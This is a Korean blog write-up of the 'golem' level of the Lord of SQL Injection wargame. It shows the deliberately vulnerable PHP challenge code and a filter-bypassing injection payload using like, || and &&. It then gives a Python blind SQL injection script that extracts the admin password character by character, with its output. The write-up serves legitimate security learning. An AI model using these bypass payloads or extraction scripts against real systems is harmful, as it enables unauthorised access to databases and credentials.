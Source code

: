 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - golem 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


벌써 11일 째 매일매일 꾸준히 문제를 풀고 있다.  

작심삼일을 반복하던 내가 11일 째라니 기특하다.  

이번 문제도 역시 `Blind SQL Injection` 이다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_golem where id='guest' and pw=''
----------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

이번엔 새로운 필터링이 추가되었다.  

`or`, `and` 뿐만 아니라 `substr(`과 `=`가 있어도 `HeHe`를 출력한다.  

`Blind SQL Injection` 문제를 풀 때 여태까지 사용한게 `substr` 함수와 `=` 문자인데, 이 둘을 사용할 수 없게 되었다.  

`substr`의 경우, `mid` 함수를 사용하면 `substr`과 동일하게 사용할 수 있다.  

문제는 `=`인데, 처음에는 `부등호`를 사용하려 했었다.  

근데 생각해보니 삽입해야 하는 쿼리는 `1' or id='admin' and length(pw)=1#`의 형태인데, 뒤의 `length(pw)=1`에는 부등호를 사용한다 쳐도, `id='admin'`에는 부등호를 사용해서 체크하기가 어려워 보였다.  

그래서 `like`을 사용했다.  

`and`는 `&&`로, `or`은 `||`로 사용할 수 있듯, `=` 또한 `like`으로 사용할 수 있다.  

따라서 최종적으로 완성되는 쿼리는 다음과 같은 형태가 된다.  

```
?pw=1' || id like 'admin' && length(pw) like 1#
```

앞서 말했듯, `&`는 `%26`으로, `#`은 `%23`으로 바꾸어 전달해야 한다.  

이를 토대로 파이썬 코드를 구현하면 다음과 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/golem_4b5202cfedd8160e73124b5234235ef5.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' || id like 'admin' %26%26 length(pw) like " + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' || id like 'admin' %26%26 mid(pw, " + str(j) + ", 1) like '" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

실행시킨 결과 아래와 같이 `admin`의 `pw`를 알아낼 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 7
[+] Found 2 : 77
[+] Found 3 : 77D
[+] Found 4 : 77D6
[+] Found 5 : 77D62
[+] Found 6 : 77D629
[+] Found 7 : 77D6290
[+] Found 8 : 77D6290B
[+] Found password :  77D6290B
[+] End
```

이번에도 알파벳 대문자는 소문자로 바꾸어 입력 해 주어야 한다.  

그냥 대문자 건너뛰고 소문자로 찾을걸 그랬나보다.  

```
?pw=77d6290b
```

그럼 아래와 같이 문제를 풀 수 있다.  

```php
----------------------------------------------------------------------------------------------
query : select id from prob_golem where id='guest' and pw='77d6290b'
----------------------------------------------------------------------------------------------

GOLEM Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

`GOLEM Clear!!`
